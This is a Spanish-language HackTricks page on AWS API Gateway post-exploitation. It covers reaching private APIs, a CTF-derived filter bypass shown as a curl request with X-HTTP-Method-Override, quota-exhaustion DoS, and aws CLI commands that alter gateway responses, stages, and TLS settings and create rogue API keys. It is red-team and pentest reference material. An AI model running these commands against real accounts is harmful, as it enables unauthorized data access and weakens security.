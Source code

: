 # AWS - API Gateway Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## API Gateway

Para más información consulta:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acceso a APIs no expuestas

Puedes crear un endpoint en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio `com.amazonaws.us-east-1.execute-api`, exponer el endpoint en una red a la que tengas acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2 podrás acceder al endpoint y, por lo tanto, llamar a la API del gateway que no estaba expuesta anteriormente.

### Bypass Request body passthrough

Esta técnica fue encontrada en [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Como se indica en la [**documentación de AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) en la sección `PassthroughBehavior`, por defecto, el valor **`WHEN_NO_MATCH`**, al verificar el encabezado **Content-Type** de la solicitud, pasará la solicitud al backend sin transformación.

Por lo tanto, en el CTF, el API Gateway tenía una plantilla de integración que **estaba impidiendo que la bandera fuera exfiltrada** en una respuesta cuando se enviaba una solicitud con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Sin embargo, enviar una solicitud con **`Content-type: text/json`** evitaría ese filtro.

Finalmente, como el API Gateway solo permitía `Get` y `Options`, era posible enviar una consulta arbitraria de dynamoDB sin ningún límite enviando una solicitud POST con la consulta en el cuerpo y utilizando el encabezado `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planes de Uso DoS

En la sección de **Enumeración** puedes ver cómo **obtener el plan de uso** de las claves. Si tienes la clave y está **limitada** a X usos **por mes**, podrías **simplemente usarla y causar un DoS**.

La **API Key** solo necesita ser **incluida** dentro de un **encabezado HTTP** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una respuesta de Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a datos en caché**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acceso no autorizado a datos en caché, interrumpiendo o interceptando el tráfico de la API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de un método de API Gateway REST existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de la API REST de API Gateway para deshabilitar el registro o cambiar la versión mínima de TLS, debilitando potencialmente la seguridad de la API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Debilitar la seguridad de la API, permitiendo potencialmente el acceso no autorizado o exponiendo información sensible.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso y luego usar estas claves para acceder no autorizado a las APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acceso no autorizado a recursos de API, eludiendo controles de seguridad.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
